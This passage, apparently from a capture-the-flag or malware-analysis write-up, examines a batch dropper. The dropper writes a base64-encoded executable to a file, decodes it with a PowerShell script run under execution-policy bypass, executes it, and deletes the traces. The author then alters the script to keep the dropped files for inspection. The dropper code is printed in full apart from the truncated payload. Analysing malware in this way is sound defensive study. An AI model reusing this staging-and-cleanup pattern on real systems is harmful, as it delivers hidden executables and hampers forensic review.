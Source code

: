 ...SNIP...
04/03/2023  02:09 PM         1,730,212 6F39.bat
04/03/2023  02:09 PM                 0 6F39.tmp
</code></pre>
<p>Listing the content of the <code>6F39</code> batch file reveals the following.</p>
<pre><code class="language-batch">@shift /0
@echo off

if %username% == matt goto correcto
if %username% == frankytech goto correcto
if %username% == ev4si0n goto correcto
goto error

:correcto
echo TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA &gt; c:\programdata\oracle.txt
echo AAAAAAAAAAgAAAAA4fug4AtAnNIbgBTM0hVGhpcyBwcm9ncmFtIGNhbm5vdCBiZSBydW4g &gt;&gt; c:\programdata\oracle.txt
&lt;SNIP&gt;
echo AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA &gt;&gt; c:\programdata\oracle.txt

echo $salida = $null; $fichero = (Get-Content C:\ProgramData\oracle.txt) ; foreach ($linea in $fichero) {$salida += $linea }; $salida = $salida.Replace(" ",""); [System.IO.File]::WriteAllBytes("c:\programdata\restart-service.exe", [System.Convert]::FromBase64String($salida)) &gt; c:\programdata\monta.ps1
powershell.exe -exec bypass -file c:\programdata\monta.ps1
del c:\programdata\monta.ps1
del c:\programdata\oracle.txt
c:\programdata\restart-service.exe
del c:\programdata\restart-service.exe
</code></pre>
<p>Inspecting the content of the file reveals that two files are being dropped by the batch file and being deleted before anyone can get access to the leftovers. We can try to retrieve the content of the 2 files, by modifying the batch script and removing the deletion.</p>
<pre><code class="language-batch">@shift /0
@echo off

echo TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA &gt; c:\programdata\oracle.txt
echo AAAAAAAAAAgAAAAA4fug4AtAnNIbgBTM0hVGhpcyBwcm9ncmFtIGNhbm5vdCBiZSBydW4g &gt;&gt; c:\programdata\oracle.txt
&lt;SNIP&gt;
echo AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA &gt;&gt; c:\programdata\oracle.txt

echo $salida = $null; $fichero = (Get-Content C:\ProgramData\oracle.txt) ; foreach ($linea in $fichero) {$salida += $linea }; $salida = $salida.Replace(" ",""); [System.IO.File]::WriteAllBytes("c:\programdata\restart-service.exe", [System.Convert]::FromBase64String($salida)) &gt; c:\programdata\monta.ps1
</code></pre>
<p>After executing the batch script by double-clicking on it, we wait a few minutes to spot the <code>oracle.txt</code> file which contains another file full of base64 lines, and the script <code>monta.ps1</code> which contains the following content, under the directory <code>c:\programdata\</code>. Listing the content of the file <code>monta.ps1</code> reveals the following code.</p>
<pre><code class="language-powershell-session">C:\&gt;  cat C:\programdata\monta.ps1
